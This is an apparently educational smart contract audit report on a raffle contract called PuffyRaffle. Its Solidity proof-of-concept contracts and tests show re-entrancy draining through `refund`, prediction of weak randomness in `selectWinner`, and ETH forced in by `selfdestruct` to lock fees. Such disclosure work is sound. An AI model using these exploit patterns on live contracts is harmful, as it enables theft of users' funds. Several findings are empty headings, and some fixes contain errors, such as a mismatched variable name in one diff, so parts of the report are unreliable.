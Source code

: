 
### High

### [H-1] Re-entrancy Bug which causes users funds + protocol funds to be lost.

**Description:**
In the `PuffyRaffle::refund` function , when an attacker calls the refund , he create a contract that can re-enter the contract and keep receiving funds till the contract is drained. All the attacker need to do is to create a contract that has a fallback function that also calls the refund. so every time ETH is sent to the attackers contract, the fallback function get triggered and it keeps calling the refund till the balance of the contract is drained.

**Impact:** All users + protocol funds are drained

**Proof of Concept:**

<details>
<summary>Code</summary>

```solidity
///@notice Attacker contract
contract ReEntrancyAttacker {
    IPuffyRaffle raffle;
    constructor(address _raffle) {
        raffle = IPuffyRaffle(_raffle);
    }
    function refundAgain() public {
        while (address(raffle).balance != 0) {
            raffle.refund(0);
        }
    }

    fallback() external payable {
        refundAgain();
    }

}

///@notice Tests
function testRefundAllFundsInContract() public {
    ReEntrancyAttacker attackerCon = new ReEntrancyAttacker(
        address(puppyRaffle)
    );

    ///@notice attacker enters raffle
    address[] memory players = new address[](4);
    players[0] = address(attackerCon);
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    console.log("Balance of Attacker", address(attackerCon).balance);

    console.log("Balance of PuffyRaffle", address(puppyRaffle).balance);

    console.log("REFUNDING........");

    //attacker calls refund.
    attackerCon.refundAgain();

    console.log("Balance of Attacker", address(attackerCon).balance);

    console.log("Balance of PuffyRaffle", address(puppyRaffle).balance);
    }
```

</details>

**Recommended Mitigation:**
Adhere to the CEI , Checks Effects Interaction.

```diff
-  payable(msg.sender).sendValue(entranceFee);

-  players[playerIndex] = address(0);

+  players[playerIndex] = address(0);
+  payable(msg.sender).sendValue(entranceFee);
```

The Effects should come before any external calls.


### [H-2] Weak Randomness in the `PuffyRaffle::selectWinner` function, which can be manipulated by miners.
**Description:**
In the `PuffyRaffle::selectWinner` function, the randomness is generated using the `(msg.sender, block.timestamp, block.difficulty)`. This is a weak source of randomness as miners can manipulate the block.timestamp and block.difficulty to predict the randomness. This can be done by miners who have control over the block.timestamp and block.difficulty.

**Impact:**
Miners can predict the randomness and manipulate the selection of the winner.

**Proof of Concept:**
<details>
<summary>Code</summary>

Attacker contract:
```solidity
contract AttackerGameProtocol is IERC721Receiver {
    IPuffyRaffle raffle;
    constructor(address _raffle) payable {
        raffle = IPuffyRaffle(_raffle);
    }
    function attack(uint256 time, uint256 diff, uint256 pLength) public {
        uint256 winnerIndex = uint256(
            keccak256(abi.encodePacked(address(this), time, diff))
        ) % pLength;

        console.log("Winner Index", winnerIndex);

        console.log(
            "Attacker Index",
            raffle.getActivePlayerIndex(address(this))
        );

        raffle.selectWinner();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external pure override returns (bytes4) {
        return this.onERC721Received.selector;
    }

    fallback() external payable {}

    receive() external payable {}
}
```

Test:
```solidity
function testGameProtocol() public {
        AttackerGameProtocol attackerGame = new AttackerGameProtocol{
            value: 1 ether
        }(address(puppyRaffle));

        uint256 attackerConBalanceBefore = address(attackerGame).balance;
        uint256 tokenIdBefore = puppyRaffle.balanceOf(address(attackerGame));

        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = address(attackerGame);
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        vm.prank(address(attackerGame));

        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        attackerGame.attack(block.timestamp, block.difficulty, 4);

        console.log("Attacker Balance Before", attackerConBalanceBefore);
        console.log("Attacker Balance After", address(attackerGame).balance);

        console.log("Owner of Token 0", puppyRaffle.ownerOf(0));
    }
```
</details>

**Recommended Mitigation:**
Use Chainlink VRF or other secure sources of randomness.

### [H-3] Overflow High Issue

### [H-4] Malicious Winner


### Medium

### [M-1] Denial of Service attack on the `PuffyRaffle::enterRaffle` function, which increases the amount of gas exponentially as `players` increases.

**Description:**
In the `PuffyRaffle::enterRaffle` function, the gas cost increases exponentially as the number of players increases. This is because the function loops through the `players` array which could be is an expensive operation. An attacker could create a contract that calls the `enterRaffle` function with a large number of players which will cause the function to run out of gas.

**Impact:**
The function will run out of gas and there denying users from using the protocol.

**Proof of Concept:**   Add this to the test suite:

<details>
<summary>POC</summary>

```solidity
function testDOS_Attack() public {
    uint256 firstPlayers = 10;

    //first 10 players
    address[] memory players = new address[](firstPlayers);
    for (uint256 i = 0; i < firstPlayers; i++) {
        players[i] = address(uint160(i));
    }

    uint256 gasLeftBefore = gasleft();

    puppyRaffle.enterRaffle{value: firstPlayers * entranceFee}(players);

    uint256 gasLeftAfter = gasleft();

    console.log("Gas Diff", gasLeftBefore - gasLeftAfter);

    uint256 secondPlayers = 100;

    ///second 100 players
    address[] memory second_players = new address[](secondPlayers);
    for (uint256 i = 0; i < secondPlayers; i++) {
        second_players[i] = address(uint160(secondPlayers + i));
    }

    uint256 gasLeftBeforeTwo = gasleft();

    puppyRaffle.enterRaffle{value: secondPlayers * entranceFee}(
        second_players
    );

    uint256 gasLeftAfterTwo = gasleft();

    console.log("Gas Diff", (gasLeftBeforeTwo - gasLeftAfterTwo));
    }
```

Output : We can see the gas cost increases exponentially as the number of players increases.

```javascript
Gas Diff 286208
Gas Diff 7070955
```

</details>

**Recommended Mitigation**
There are multiple ways to mitigate this:
* Protocol could add a cap to the number of players that can participate in the raffle.
* 



### [M-2] Protocol Can lose all protocol fee funds in the contract forever.

**Description:**
In the `PuffyRaffle::withdrawFees` function , the check for the balance to be equal to the `totalFees` in the contract will always fail if additional `ETH` is sent to the contract. Although the function does not have a `fallback` function to receive funds. An attacker could create a contract with `ETH` and call a `selfdestruct` which will push`ETH` to the contract. Thereby causing the protocol to lose the funds in the contract.

**Impact:**
All protocol fees will be lost forever.

**Proof of Concept:**

<details>

<summary>Code</summary>

```solidity
///@notice attacker contract
contract AttackerContract {
function attack(address victim) external payable {
    selfdestruct(payable(victim));
}

fallback() external payable {}

}

function testWithdrawShouldFailedWhenBalanceIsGreaterThanTotalFees() public playersEntered {
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);

    puppyRaffle.selectWinner();

    //attack
    AttackerContract attackerCon = new AttackerContract();

    //send funds to attacker contract
    vm.deal(address(attackerCon), 3 ether);

    attackerCon.attack(address(puppyRaffle));

    vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
}
```

</details>

**Recommended Mitigation:** Change the require check.

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

+ require(totalFees != 0, "PuppyRaffle: Not enough fees!");
```


### [M-3] UnSafeCasting of `fees` to uint64 , causes overflow hence reducing the value of `totalFees`.

**Description**
The casting the fees to uint64 can overflow  `totalFees = totalFees + uint64(fee);`, when the value of fees increases. since a uint64 can only take up to 18.4..e18 values. so any value that goes beyond gets wrapped around. 

**Impact**
Some Protocol fees will be left int the contract, and since there is not function to remove excess funds this is a issue.

**Proof of Concept:**
Add this test to the test suite:
<details>
<summary>POC:</summary>

```solidity
function testOverflow() public {
    uint256 feeBefore = 10e18;

    console.log("Fee AFter", feeBefore);

    uint64 totalFeesBefore = uint64(feeBefore);

    console.log("Total Fees Before", totalFeesBefore);
    console.log("");

    console.log("Fee Increased.............");

    console.log("");

    uint256 feeAfter = feeBefore + 10e18;

    console.log("Fee", feeAfter);

    uint64 totalFeesAfter = uint64(feeAfter);

    console.log("Total Fees After", totalFeesAfter);
    }
```
</details>

**Recommended Mitigation**
There multiple ways to mitigate this issue:

* Use newer versions of solidity , since the compiler wont allow this `totalFees = totalFees + uint64(fee);` to compile.
* Use use OpenZeppelin's SafeCast to safely cast the fees.






### [NC-1] No checks for address validity, fees can be sent to a zero address

**Recommended Mitigation:** 
Add a require statement to check for address validity

```diff
function changeFeeAddress(address newFeeAddress) external onlyOwner {
+   require(newAddress!=address(0),"Invalid address");
    feeAddress = newFeeAddress;
    emit FeeAddressChanged(newFeeAddress);
}
```


### [NC-2] Variables that are set once , should be set to constant.


**Proof of Concept**

```javascript
string private commonImageUri =
    "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";
string private rareImageUri =
    "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";
string private legendaryImageUri =
    "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

**Recommended Mitigation:**
Change the variables to constant.

```diff
- string private commonImageUri =
+ string private constant commonImageUri =
    "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";

- string private rareImageUri =
+ string private constant rareImageUri =
    "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";

- string private legendaryImageUri =
+ string private constant legendaryImageUri =
    "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

### [NC-3] Do not Use magic numbers in the code.

**Proof of Concept**

```javascript
require(players.length >= 4, "PuppyRaffle: Need at least 4 players");

uint256 prizePool = (totalAmountCollected * 80) / 100;
uint256 fee = (totalAmountCollected * 20) / 100;
```

**Recommended Mitigation:**
Create a constant for the magic numbers.

```diff
+ uint256 constant MIN_PLAYERS = 4;
+ uint256 constant PRIZE_POOL_PERCENTAGE = 80;
+ uint256 constant FEE_PERCENTAGE = 20;
+ uint256 constant PRECISION = 100;
```

### [NC-4] Use `address(this).balance` instead of ` uint256 totalAmountCollected = players.length * entranceFee;` to get the balance of the contract.

**Proof of Concept**

```javascript
uint256 totalAmountCollected = players.length * entranceFee;
```

**Recommended Mitigation:**

```diff
- uint256 totalAmountCollected = players.length * entranceFee;
+ uint256 totalAmountCollected = address(this).balance;
```

### [NC-5] Unused code should be removed, to reduce contract code size.

**Proof of Concept**

```javascript
 function _isActivePlayer() internal view returns (bool) {
    for (uint256 i = 0; i < players.length; i++) {
        if (players[i] == msg.sender) {
                return true;
        }
    }
    return false;
 }
```

**Recommended Mitigation:**
Remove the unused code.


### [NC-6] Use Events to log important contract state changes.

**Description:**
Events are a way to log important contract state changes. They are useful for dApps to listen to these events and update the UI accordingly. `PuppyRaffle::withdrawFees` and `PuppyRaffle::selectWinner` functions do not emit any events.

**Recommended Mitigation:**
Add events to log important contract state changes.


### [NC-7] Events parameters should be indexed, to make it easier to filter events.

**Description:**
Events parameters should be indexed, to make it easier to filter events. `PuppyRaffle::enterRaffle`,`PuppyRaffle::refund` and `PuppyRaffle::changeFeeAddress` event does not have any indexed parameters.

**Recommended Mitigation:**
Add indexed parameters to the events.


### [NC-8] erroneous 'getActivePlayerIndex' function